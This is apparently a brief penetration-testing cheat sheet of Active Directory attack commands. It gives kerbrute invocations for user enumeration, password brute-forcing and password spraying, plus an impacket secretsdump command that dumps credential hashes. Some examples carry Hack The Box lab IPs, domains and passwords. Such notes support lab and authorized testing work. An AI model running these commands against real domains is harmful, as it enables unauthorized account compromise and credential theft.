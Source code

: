 ## EnumUser

```
./kerbrute userenum -v --dc <IP address> -d <Domain> <User list>
```

## BruteUser

```
./kerbrute bruteuser -v --dc <IP address> -d <Domain> <Passoword list> <Username>
```

## Userlist & one password

```
./kerbrute passwordspray -v --dc 10.10.10.169 -d megabank.local users.txt 'Welcome123!
```

## seretsdump.py (impacket)

```
secretsdump.py 'htb.local/james:J@m3s_P@ssW0rd!@10.10.10.52'
```
